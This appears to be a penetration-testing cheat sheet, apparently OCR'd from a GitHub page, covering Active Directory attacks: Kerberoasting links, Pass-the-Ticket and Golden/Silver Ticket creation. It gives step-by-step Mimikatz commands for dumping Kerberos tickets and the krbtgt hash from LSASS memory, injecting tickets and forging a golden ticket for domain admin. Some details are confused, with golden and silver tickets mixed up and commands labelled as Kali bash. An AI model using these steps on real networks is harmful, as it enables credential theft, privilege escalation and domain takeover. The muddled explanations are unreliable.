 **Kerberoasting:**
[https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)  
[https://medium.com/@markmotig/kerberoasting-from-setup-to-cracking-3e8c980f26e8](https://medium.com/@markmotig/kerberoasting-from-setup-to-cracking-3e8c980f26e8)

**Pass-The-Ticket (PTT):**
PTT works by dumping the TGT from the LSASS memory of the machine. LSASS is a memory process that stores credentials on an active directory server and can store Kerberos tickets along with other credential types. When you dump the ticket with Mimikatz it will give you a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in LSASS memory. Great attack for privilege escalation and lateral movement.

```bash - kali
mimikatz.exe  
```

```bash - kali
privilege::debug  
```

```bash - kali
sekurlsa::tickets /export
```

- (this will export all of the .kirbi tickets into your present working directory)

**Always look for an administrator@krbtgt ticket if possible.**

Now to pass the ticket:
```bash - kali
kerberos::ptt <.kirbi ticket>  
```
- klist [not in mimikatz session — verifies your ticket was injected]

**Golden Ticket Attack:**
This attack works by dumping the TGT of any user on the domain, this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket you would dump any service or domain ticket.

```bash - kali
mimikatz.exe  
```

```bash - kali
privilege::debug  
```

To create a silver ticket change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account:
```bash - kali
lsadump::lsa /inject /name:krbtgt
```

To create a silver ticket user a different service account — place the NTLM, SID, and id 1103 into the proper slots of this command:
```bash - kali
kerberos::golden /user:administrator /domain:$DOMAIN_NAME /sid:<krbtgt’s full SID> /krbtgt:<NTLM Hash of krbtgt> /id:500 
```

